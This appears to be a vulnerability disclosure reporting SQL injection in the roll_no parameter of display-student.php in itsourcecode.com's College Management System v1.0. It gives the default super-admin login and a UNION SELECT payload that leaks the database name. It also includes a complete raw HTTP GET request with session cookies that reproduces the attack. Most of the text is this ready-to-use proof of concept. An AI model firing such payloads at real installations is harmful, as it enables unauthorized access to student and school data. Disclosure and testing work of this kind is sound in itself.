 # College Management System v1.0 by itsourcecode.com has SQL injection

Login account: admin@gmail.com/admin123* (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/college-management-system-project-in-php-and-mysql/

Vulnerability File: /College/admin/display-student.php

Vulnerability location: /College/admin/display-student.php?roll_no=,roll_no=

[+] Payload: /College/admin/display-student.php?roll_no=-1%27%20%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36--+ // Leak place ---> roll_no=

Current database name: college

```sql
GET /College/admin/display-student.php?roll_no=-1%27%20%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1; ci_session=9cjop1qgnjcd780kijmjrva559enogjl
Connection: close
```

![image](https://user-images.githubusercontent.com/79501212/171632110-5614ba47-999b-4668-a84e-d00e1a8bec0c.png)

![image](https://user-images.githubusercontent.com/79501212/171632137-19cbe9b2-d104-49b6-8145-da4c20604667.png)
